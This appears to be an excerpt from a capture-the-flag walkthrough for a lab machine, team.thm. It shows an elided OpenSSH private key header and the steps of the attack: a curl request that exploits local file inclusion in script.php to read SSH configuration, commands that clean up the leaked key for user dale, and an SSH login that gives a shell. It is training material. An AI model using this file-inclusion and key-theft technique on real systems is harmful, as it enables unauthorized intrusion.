 `#------BEGIN OPENSSH PRIVATE KEY----`
........
......
`#----END OPENSSH PRIVATE KEY-----

==CURL:==
```bash
curl http://dev.team.thm/script.php?page=/etc/ssh/sshd_config
```
==Copy to:==
```bash
mousepad dale_id_rsa
```
==Remove '#' from the file==
```bash
cat dale_id_rsa | awk -F '#' '{print $2}' > dale_id_rsa2
or
cat dale_id_rsa | sed 's/#//g' > dale_id_rsa2
```
==Give rights:==
```bash
chmod 600 dale_id_rsa2
```
==Get shell==
```bash
ssh -i dale_id_rsa2 dale@team.thm
dale@TEAM:~$whoami 
```

